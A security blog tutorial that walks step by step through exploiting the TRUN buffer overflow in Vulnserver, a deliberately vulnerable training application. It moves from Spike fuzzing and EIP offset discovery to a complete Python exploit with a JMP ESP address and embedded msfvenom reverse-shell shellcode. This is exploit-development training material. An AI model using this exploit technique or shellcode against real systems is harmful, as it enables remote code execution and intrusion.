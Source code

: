 :slug: vulnserver-trun/
:date: 2020-06-10
:category: attacks
:subtitle: From zero to shell
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by David Rangel on Unsplash
:description: This post will describe the steps taken to exploit the Vulnserver TRUN command using a direct EIP overwrite strategy.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/4m7gmLNr3M0

= Vulnserver TRUN Exploitation

Vulnserver is the natural next step to follow
after finishing the Offsec `CTP` course.
It's a `VbD` (Vulnerable-by-Design) application designed
to help you sharpen the Windows exploitation skills.
You can download the executable link:https://github.com/stephenbradshaw/vulnserver[here]
along with the source code.
Remember that you must grab the `essfunc.dll` file as well.
However, this post (and the others to come) will try to replicate a
link:../../use-cases/continuous-hacking/[grey box]
scenario that is the most common in real exploitation.
In which we only will have access to the binary,
and we must start doing things like recognizance, enumeration, and fuzzing.

*WARNING:*
Do NOT run `vulnserver.exe` on a sensitive machine or a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.

image::vulnserver1.png[vulnserver]

If we type `HELP`, we can see the available commands. The commands commonly
receive a single parameter and will return a simple answer.
In this post, we are going to check the `TRUN` command.

image::trun1.png[trun]

For that, we issue the `TRUN` command with a single parameter and check
the answer.

== Fuzzing Vulnserver

Now that we know that the `TRUN` command receives a single parameter, we can
start fuzzing it.

For that, we'll be using link:https://github.com/guilhermeferreira/spikepp/[Spike],
a protocol fuzzer.
More info on `Spike` can be found link:https://resources.infosecinstitute.com/intro-to-fuzzing/[here].

As we determined before, `TRUN` takes a single parameter. Having noted that,
we can create the `Spike` script as simple as:

.trun.spk
[source,c]
----
s_string("TRUN ");
s_string_variable("*");
----

Notice that we are using two different `Spike` commands.
The `s_string` command will send an immutable string to the fuzzed protocol
and `s_string_variable` tells `Spike` to mutate that string.

Now we can send the fuzz attack to the victim machine:

image::trun2.png[Running spike]

Look at that: After only 3 iterations, `vulnserver.exe` stopped working,
and it seems that it happened when we sent 5000 bytes of data.
We can see this in `Wireshark`:

image::trun3.png[Wireshark capture]

With that, we can start replicating the crash. For that, we create the
first `PoC` (Proof-of-Concept) file:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This time, let's attach `vulnserver.exe` to a debugger. I will use
link:https://www.immunityinc.com/products/debugger/[Immunity Debugger]
with link:https://github.com/corelan/mona[mona.py] plugin.

So, let's run the initial exploit and see what happens:

image::trun4.gif[Exploit: take 1]

Great! We were able to replicate the crash of `Vulnserver`.

image::trun5.png[Controlling EIP]

If you look carefully at the image, you can see that the `EIP` register has the
value of `41414141` which is the hex representation of our payload of `A`.
`EIP` points to the next instruction to be executed, so if we can control
`EIP`, we have full control of the execution flow of the whole application.
Beautiful, isn't it?

But remember that we injected 5000 `A`, so we must know the exact offset
on where `EIP` gets overwritten.
To do that, we can create a cyclic pattern of chars that will help us identify
the exact offset that we must inject to the buffer in order to control `EIP`.
We will use a tool from `Metasploit` called `pattern_create.rb`:

.Running pattern_create.rb
[source,console]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit/
$ ./pattern_create.rb -l 5000
----

image::pattern1.png[Cyclic pattern]

We then add that pattern to our exploit, replacing the buffer of `A` with
our pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::trun6.gif[Exploit: take 2]

image::trun7.png[Cyclic pattern on EIP]

As you can see, the `EIP` register now holds the value `386F4337`.
We need to check the exact offset of that string on our unique cyclic pattern.
To do that, we can use `pattern_offset.rb` from `Metasploit`:

image::pattern2.png[Pattern offset]

Great, it tells us that the `EIP` gets overwritten starting on the *2003*
byte of our buffer. Let's update the exploit to verify that:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    b'B' * 4 +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

In this updated exploit, we will send a buffer of 2003 `A`,
then a single 4 byte string of `B` (whose hex representation is `42`) and
fill the rest of our 5000 buffer with `C`. If the offset is correct, `EIP` will
hold the value of `42424242` which are the four bytes of our `B` buffer:

image::trun8.gif[Correct offset to EIP]

Awesome! Now, we know the exact structure of the vulnerability,
and we can proceed to exploit it.

== Exploiting

Let's look at the value of the registers at the time of the crash.

image::trun9.png[Registers]

As you can see, two registers point to our injected buffer:
`EAX`, and `ESP`.
`EAX` points at the exact beginning of our injected buffer but includes the
chars `TRUN /.:/`. Those may be translated to harmless `ASM` instructions but
we must not risk our exploitation. However, we have the other register `ESP`
which points directly to our controlled buffer.

Using `!mona findmsp` inside the debugger, we can find this information,
along with the continuous space available for us to inject our shellcode.

.findmsp
[source,console]
----
!mona findmsp
----

image::mona1.png[Mona output]

Note that we have 984 bytes after `ESP` available for us to run anything
we'd want. First, we must search on `vulnserver.exe` and its runtime
modules, an instruction that can lead us to execute code starting on
the memory region pointed by `ESP`.

First, let's find the `Vulnserver` runtime dependencies:

image::deps1.png[Runtime dependencies]

It is always a good idea to look for instructions on files that are not part
of the `OS` because the address of those instructions will likely change over
different Windows versions, and that makes the exploit less portable.
Also, a null byte (`0x00`) on the address of the desired instruction
can stop our attack.

`mona.py` can also help us to identify the desired instructions on the desired
modules, by running:

.mona
[source,console]
----
!mona jmp -r esp -cp nonull -o
----

image::esp1.png[JMP ESP instructions]

As you can see, there are several `JMP ESP` instructions we can pick.
We are going to pick the one at `62501205`.
Let's update the exploit and replace the four `B` with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

If everything comes as expected, we will hit that `JMP ESP` instruction that
will lead us to execute code on our `C` buffer. Let's put a breakpoint at the
`JMP ESP` instruction and run the exploit:

image::trun10.gif[Performing the JMP ESP]

Great!

All that's left is to include a shellcode in place of the buffer of `C` so can
execute commands on the victim machine.
We will use a reverse shell payload as generated by `msfvenom`:

image::msfvenom1.png[Generating reverse shell]

As a rule of thumb, get used to generate shellcodes without bad chars that
may break the execution flow of our attack, such as null bytes (`0x0`),
line feed (`\r or 0xa`), and carriage return (`\n or 0xd`). You can see a
detailed way of checking for bad chars on link:../vulnserver-lter-seh/[LTER]
article.

Also, note that our `JMP ESP` led us to our `C` but not exactly at the
beginning, so we must pad the exploit with some `C` chars to make the
payload slide gracefully to the start of our reverse shell.

Let's update the exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

SHELL =  b""
SHELL += b"\xb8\x9e\x3b\xe5\xc4\xda\xcf\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x52\x31\x45\x12\x83\xc5\x04\x03\xdb"
SHELL += b"\x35\x07\x31\x1f\xa1\x45\xba\xdf\x32\x2a\x32\x3a"
SHELL += b"\x03\x6a\x20\x4f\x34\x5a\x22\x1d\xb9\x11\x66\xb5"
SHELL += b"\x4a\x57\xaf\xba\xfb\xd2\x89\xf5\xfc\x4f\xe9\x94"
SHELL += b"\x7e\x92\x3e\x76\xbe\x5d\x33\x77\x87\x80\xbe\x25"
SHELL += b"\x50\xce\x6d\xd9\xd5\x9a\xad\x52\xa5\x0b\xb6\x87"
SHELL += b"\x7e\x2d\x97\x16\xf4\x74\x37\x99\xd9\x0c\x7e\x81"
SHELL += b"\x3e\x28\xc8\x3a\xf4\xc6\xcb\xea\xc4\x27\x67\xd3"
SHELL += b"\xe8\xd5\x79\x14\xce\x05\x0c\x6c\x2c\xbb\x17\xab"
SHELL += b"\x4e\x67\x9d\x2f\xe8\xec\x05\x8b\x08\x20\xd3\x58"
SHELL += b"\x06\x8d\x97\x06\x0b\x10\x7b\x3d\x37\x99\x7a\x91"
SHELL += b"\xb1\xd9\x58\x35\x99\xba\xc1\x6c\x47\x6c\xfd\x6e"
SHELL += b"\x28\xd1\x5b\xe5\xc5\x06\xd6\xa4\x81\xeb\xdb\x56"
SHELL += b"\x52\x64\x6b\x25\x60\x2b\xc7\xa1\xc8\xa4\xc1\x36"
SHELL += b"\x2e\x9f\xb6\xa8\xd1\x20\xc7\xe1\x15\x74\x97\x99"
SHELL += b"\xbc\xf5\x7c\x59\x40\x20\xd2\x09\xee\x9b\x93\xf9"
SHELL += b"\x4e\x4c\x7c\x13\x41\xb3\x9c\x1c\x8b\xdc\x37\xe7"
SHELL += b"\x5c\x23\x6f\xe7\x88\xcb\x72\xe7\xa1\x57\xfa\x01"
SHELL += b"\xab\x77\xaa\x9a\x44\xe1\xf7\x50\xf4\xee\x2d\x1d"
SHELL += b"\x36\x64\xc2\xe2\xf9\x8d\xaf\xf0\x6e\x7e\xfa\xaa"
SHELL += b"\x39\x81\xd0\xc2\xa6\x10\xbf\x12\xa0\x08\x68\x45"
SHELL += b"\xe5\xff\x61\x03\x1b\x59\xd8\x31\xe6\x3f\x23\xf1"
SHELL += b"\x3d\xfc\xaa\xf8\xb0\xb8\x88\xea\x0c\x40\x95\x5e"
SHELL += b"\xc1\x17\x43\x08\xa7\xc1\x25\xe2\x71\xbd\xef\x62"
SHELL += b"\x07\x8d\x2f\xf4\x08\xd8\xd9\x18\xb8\xb5\x9f\x27"
SHELL += b"\x75\x52\x28\x50\x6b\xc2\xd7\x8b\x2f\xe2\x35\x19"
SHELL += b"\x5a\x8b\xe3\xc8\xe7\xd6\x13\x27\x2b\xef\x97\xcd"
SHELL += b"\xd4\x14\x87\xa4\xd1\x51\x0f\x55\xa8\xca\xfa\x59"
SHELL += b"\x1f\xea\x2e"

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * 32 +
    SHELL +
    b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And let's check it:

image::success.gif[Our reverse shell]

Great! We got our shell!

You can download the final exploit link:exploit.py[here]

== Conclusion

This was one of the most straightforward exploits for Vulnserver.
Other commands will pose a little more effort, but fear not;
we will post here how to exploit them successfully.
